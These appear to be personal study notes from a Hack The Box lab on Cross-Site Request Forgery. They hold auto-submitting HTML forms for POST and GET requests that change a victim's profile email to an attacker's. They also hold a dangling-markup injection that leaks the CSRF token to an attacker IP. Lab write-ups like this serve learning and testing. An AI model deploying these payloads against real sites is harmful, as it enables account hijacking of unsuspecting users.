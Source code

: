 ____

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

While logged into the target user account, open a new tab and visit the URL hosted on the attacking machine: `http://<Attacker_IP>:<Port>/malicious.html`. Upon visiting the page, you'll observe that the target user's profile details will be altered based on the data embedded within the malicious HTML page being served by the attacker.

![[Pasted image 20241012104931.png]]

# GET-based

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="5d3d079457440b13e88ad917fcab3b2ff6f1ec9d" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

# POST-based

![[Pasted image 20241012110824.png]]

Leak the CSRF token,
```html
<table%20background='%2f%2f10.10.15.5:80%2f
```

![[Pasted image 20241012110926.png]]


